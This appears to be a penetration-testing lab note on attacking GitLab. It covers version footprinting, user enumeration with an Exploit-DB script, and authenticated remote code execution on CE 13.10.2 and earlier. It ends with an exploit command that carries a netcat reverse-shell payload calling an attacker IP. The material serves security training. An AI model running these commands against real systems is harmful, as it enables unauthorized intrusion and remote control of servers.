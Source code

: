 # Footprinting & Discovery
We can quickly determine that GitLab is in use in an environment by just browsing to the GitLab URL, and we will be directed to the login page, which displays the GitLab logo.

The only way to footprint the GitLab version number in use is by browsing to the /help page when logged in. If the GitLab instance allows us to register an account, we can log in and browse to this page to confirm the version.

# Enumeration
There's not much we can do against GitLab without knowing the version number or being logged in. 
The first thing we should try is browsing to /explore and see if there are any public projects that may contain something interesting. 

# Attacking GitLab
## Username Enumeration
We can write one ourselves in Bash or Python or use [this one](https://www.exploit-db.com/exploits/49821) to enumerate a list of valid users. The Python3 version of this same tool can be found [here](https://github.com/dpgg101/GitLabUserEnum).
```bash
$ ./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt
```

## Authenticated Remote Code Execution
GitLab Community Edition version 13.10.2 and lower suffered from an authenticated remote code execution vulnerability due to an issue with ExifTool handling metadata in uploaded image files.
We can use [this](https://www.exploit-db.com/exploits/49951) exploit to achieve RCE.

As this is authenticated remote code execution, we first need a valid username and password. In some instances, this would only work if we could obtain valid credentials through OSINT or a credential guessing attack. However, if we encounter a vulnerable version of GitLab that allows for self-registration, we can quickly sign up for an account and pull off the attack.
```bash
$ python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f'
```